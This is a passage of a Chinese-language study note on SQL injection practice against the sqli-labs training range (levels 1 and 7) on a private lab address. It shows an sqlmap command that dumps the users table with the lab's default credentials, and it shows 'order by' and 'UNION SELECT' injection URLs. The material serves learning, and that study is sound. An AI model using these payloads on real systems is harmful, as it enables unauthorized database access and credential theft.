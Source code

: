 - ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security -T users -C username,password``导出数据库

```cmd
SELECT username, password FROM security.users [13]:
[*] Dumb, Dumb
[*] Angelina, I-kill-you
[*] Dummy, p@ssword
[*] secure, crappy
[*] stupid, stupidity
[*] superman, genious
[*] batman, mob!le
[*] admin, admin
[*] admin1, admin1
[*] admin2, admin2
[*] admin3, admin3
[*] dhakkan, dumbo
[*] admin4, admin4
```

# 靶场第七关

- ``$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";``--->对我来说难度挺大的,我们先拿着sql语句分析,好吧暂时分析不出什么

- http://192.168.77.131/master/Less-7/?id=14
- http://192.168.77.131/master/Less-7/?id=15

![image-20240819202302490](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819202302490.png)

![image-20240819202322973](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819202322973.png)

- 这里可以发现``id``应该只有``14``个

- http://192.168.77.131/master/Less-7/?id=1'))order by 3 --+

![image-20240819203443978](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819203443978.png)

- http://192.168.77.131/master/Less-7/?id=1')) UNION SELECT 1,2,3--+

![image-20240819203543344](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819203543344.png)